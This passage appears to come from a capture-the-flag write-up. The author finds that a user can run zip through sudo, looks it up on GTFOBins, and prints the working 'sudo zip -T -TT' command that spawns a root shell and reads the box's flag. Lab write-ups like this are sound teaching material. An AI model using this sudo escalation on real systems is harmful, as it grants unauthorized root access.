 It worked and it seems like the user can run the `zip` command as a privileged user. 

The best way to find how to exploit certain commands that run as root is by going to [GTFOBins](https://gtfobins.github.io/). 

Once there, use the searchbar to search for `zip` and under the sudo section. We should have the commands we need to run to get root:

```bash
jeanpaul@dev:~$ TF=$(mktemp -u)
jeanpaul@dev:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# ls  
# cd /root
# ls
flag.txt
# cat flag.txt
Congratz on rooting this box !
```

😎
